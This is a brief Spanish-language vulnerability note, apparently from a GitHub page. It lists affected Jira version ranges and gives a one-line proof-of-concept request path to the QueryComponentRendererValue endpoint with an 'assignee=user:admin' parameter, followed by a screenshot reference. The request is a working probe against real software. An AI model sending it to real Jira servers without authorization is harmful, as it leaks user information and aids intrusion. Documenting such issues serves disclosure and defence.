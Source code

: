 <languages />

Versión afectada
----------------

    Jira < 8.5.13
    8.6.0 ≤ Jira < 8.13.5
    8.14.0 ≤ Jira < 8.15.1

POC
---

    /secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin

Captura de pantalla
-------------------

![](Twitter_E3k2_J4VIAAWR_6.jpg "Twitter_E3k2_J4VIAAWR_6.jpg")